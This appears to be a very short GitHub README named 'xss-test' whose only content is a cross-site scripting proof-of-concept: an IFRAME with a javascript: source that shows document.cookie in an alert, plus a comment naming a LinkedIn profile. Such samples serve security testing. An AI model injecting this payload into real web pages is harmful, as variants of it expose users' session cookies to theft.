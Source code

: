 # xss-test
xss


```
  
<!--      TEST : https://www.linkedin.com/in/sagaryadav8742/ -->

<IFRAME SRC="javascript:javascript:alert(document.cookie);"></IFRAME>


```

